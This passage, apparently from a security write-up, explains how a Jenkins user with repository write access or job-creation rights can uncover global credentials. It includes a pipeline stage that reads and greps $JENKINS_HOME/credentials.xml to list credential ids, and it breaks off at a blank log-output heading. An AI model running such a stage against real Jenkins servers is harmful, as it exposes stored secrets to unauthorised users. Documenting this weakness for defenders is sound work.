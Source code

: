 ![](images/309E1D6558904A41BF57747BFDD9D8F6007.png)

Anyone with write access to a repository built on Jenkins can uncover all Global credentials by modifying a Jenkinsfile in that repository.

Anyone who can create jobs on Jenkins can uncover all Global secrets by creating a pipeline job.

Listing ids of secrets

Before you ask Jenkins for a credential you need to know its id.

You can list all credentials ids by reading the $JENKINS_HOME/credentials.xml file.

Code:

stage('list credentials ids') {
  steps {
    script {
      sh 'cat $JENKINS_HOME/credentials.xml | grep "<id>"'
    }
  }
}


Log output:
